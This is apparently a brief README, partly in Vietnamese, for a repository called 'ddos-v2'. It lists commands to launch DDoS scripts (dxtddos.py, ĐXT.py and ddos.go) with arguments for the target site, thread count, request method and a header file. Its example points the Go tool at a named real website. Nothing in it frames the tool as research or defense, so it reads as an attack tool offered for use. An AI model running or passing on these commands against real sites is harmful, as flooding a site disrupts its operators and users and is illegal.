 # ddos-v2

cd ddos-v2
python dxtddos.py
---------
cd ddos-v2
python dxtddos.py
-------
Hoạc
------
python ĐXT.py
-------
go run ddos.go tên web 10000 get 250 header txt

VD: run ddos.go xnxx.com 10000 get 250 header.txt
